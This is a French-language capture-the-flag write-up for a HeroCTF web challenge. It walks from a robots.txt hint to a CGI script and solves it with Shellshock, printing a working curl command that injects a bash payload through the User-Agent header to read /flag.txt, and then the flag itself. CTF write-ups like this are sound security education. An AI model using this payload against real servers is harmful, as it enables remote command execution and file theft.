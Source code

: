 # C'est choquant

### Description

Un développeur est en train de faire son site internet. Il est sur que s'il n'y a aucune entrée utilisateur, il ne peut pas être piraté. Prouvez lui le contraire en récupérant le fichier /flag.txt!

Accéder au challenge

PS : Le bruteforce reste interdit sur cette épreuve.

Format : Hero{flag}

### Solution

Quand on arrive sur la page web, rien de bien intéressant.

Permier réflexe : aller voir le `robots.txt`

Ce fichier nous indique qu'il y a un fichier sensé être caché sous le nom de `th1s1ss3cr3t.txt`

Et dans ce même fichier, une petite phrase
>  "Hi Worty, I've put a test file for cgi-bin : wazuuup, check it out!".

cgi-bin est un réperoire dans lequel des scripts peuvent êtres exécutés.

En allant dans ce répertoire, on reçoit une erreur `403 Forbidden`

Je me dis alors que le script à utiliser est `cgi-bin/wazuuup`

Encore une fois, rien de bien intéressant, le script se contente de nous afficher la date et l'heure...

Après quelques recherches, il semblerait qu'il existe une faille nommée `shellshock` qui nous permet d'envoyer des commandes en bash. 

Le flag étant à la racine on tape la commande 
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cd /;cat flag.txt;'" http://challs.heroctf.fr:3015/cgi-bin/wazuuup/
```

Flag : `Hero{sh3llsh0ck_1s_c00l_!!}`
